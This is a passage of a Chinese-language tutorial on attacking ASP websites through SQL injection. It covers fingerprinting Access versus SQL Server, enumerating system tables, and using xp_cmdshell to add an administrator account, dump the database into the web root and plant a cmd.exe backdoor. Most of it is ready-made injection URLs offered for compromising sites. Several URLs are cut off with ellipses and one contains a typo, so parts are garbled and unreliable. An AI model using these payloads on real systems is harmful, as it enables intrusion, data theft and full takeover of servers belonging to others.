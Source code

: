 ### 二、分析数据库服务器类型
　　一般来说，ACCESS与SQL－SERVER是最常用的数据库服务器，尽管它们都支持T－SQL标准，但还有不同之处，而且不同的数据库有不同的攻击方法，必须要区别对待。
#### 1、 利用数据库服务器的系统变量进行区分
　　SQL－SERVER有user,db_name()等系统变量，利用这些系统值不仅可以判断SQL-SERVER，而且还可以得到大量有用信息。如：
- HTTP://xxx.xxx.xxx/abc.asp?p=YY and user>0 不仅可以判断是否是SQL-SERVER，而还可以得到当前连接到数据库的用户名
- HTTP://xxx.xxx.xxx/abc.asp?p=YY&n ... db_name()>0 不仅可以判断是否是SQL-SERVER，而还可以得到当前正在使用的数据库名；

#### 2、利用系统表

　　ACCESS的系统表是msysobjects,且在WEB环境下没有访问权限，而SQL-SERVER的系统表是sysobjects,在WEB环境下有访问权限。对于以下两条语句：
- HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(\*) from sysobjects)>0
- HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(\*) from msysobjects)>0
若数据库是SQL-SERVE，则第一条，abc.asp一定运行正常，第二条则异常；若是ACCESS则两条都会异常。

#### 3、MSSQL三个关键系统表
　　sysdatabases系统表：Microsoft SQL Server 上的每个数据库在表中占一行。最初安装 SQL Server 时，sysdatabases 包含 master、model、msdb、mssqlweb 和 tempdb 数据库的项。该表只存储在 master 数据库中。 这个表保存在master数据库中，这个表中保存的是什么信息呢？这个非常重要。他是 保存了所有的库名,以及库的ID和一些相关信息。
　　这里我把对于我们有用的字段名称和相关说明给大家列出来。
- name //表示库的名字。
- dbid //表示库的ID，dbid从1到5是系统的。分别是：master、model、msdb、mssqlweb、tempdb 这五个库。用select * from master.dbo.sysdatabases 就可以查询出所有的库名。
- Sysobjects：SQL-SERVER的每个数据库内都有此系统表，它存放该数据库内创建的所有对象，如约束、默认值、日志、规则、存储过程等，每个对象在表中占一行。
- syscolumns：每个表和视图中的每列在表中占一行，存储过程中的每个参数在表中也占一行。该表位于每个数据库中。主要字段有：name ，id， colid ：分别是字段名称，表ID号，字段ID号，其中的 ID 是 刚上我们用sysobjects得到的表的ID号。用: 
```
select * from ChouYFD.dbo.syscolumns where id=123456789
```
 得到ChouYFD这个库中，表的ID是123456789中的所有字段列表。

### 三、确定XP_CMDSHELL可执行情况
　　若当前连接数据的帐号具有SA权限，且master.dbo.xp_cmdshell扩展存储过程(调用此存储过程可以直接使用操作系统的shell)能够正确执行，则整个计算机可以通过以下几种方法完全控制，以后的所有步骤都可以省
1. HTTP://xxx.xxx.xxx/abc.asp?p=YY&nb ... er>0 abc.asp执行异常但可以得到当前连接数据库的用户名(若显示dbo则代表SA)。
2. HTTP://xxx.xxx.xxx/abc.asp?p=YY ... me()>0 abc.asp执行异常但可以得到当前连接的数据库名。
3. HTTP://xxx.xxx.xxx/abc.asp?p=YY；exec master..xp_cmdshell “net user aaa bbb /add”-- (master是SQL-SERVER的主数据库；名中的分号表示SQL-SERVER执行完分号前的语句名，继续执行其后面的语句；“—”号是注解，表示其后面的所有内容仅为注释，系统并不执行)可以直接增加操作系统帐户aaa,密码为bbb。
4. HTTP://xxx.xxx.xxx/abc.asp?p=YY；exec master..xp_cmdshell “net localgroup administrators aaa /add”-- 把刚刚增加的帐户aaa加到administrators组中。
5. HTTP://xxx.xxx.xxx/abc.asp?p=YY；backuup database 数据库名 to disk='c:\inetpub\wwwroot\save.db' 则把得到的数据内容全部备份到WEB目录下，再用HTTP把此文件下载(当然首选要知道WEB虚拟目录)。
6. 通过复制CMD创建UNICODE漏洞
　　HTTP://xxx.xxx.xxx/abc.asp?p=YY;exe ... dbo.xp_cmdshell “copy c:\winnt\system32\cmd.exe c:\inetpub\scripts\cmd.exe” 便制造了一个UNICODE漏洞，通过此漏洞的利用方法，便完成了对整个计算机的控制(当然首选要知道WEB虚拟目录)。

### 四、发现WEB虚拟目录
只有找到WEB虚拟目录，才能确定放置ASP木马的位置，进而得到USER权限。有两种方法比较有效。

一是根据经验猜解，一般来说，WEB虚拟目录是：c:\inetpub\wwwroot; D:\inetpub\wwwroot; E:\inetpub\wwwroot等，而可执行虚拟目录是：c:\inetpub\scripts; D:\inetpub\scripts; E:\inetpub\scripts等。
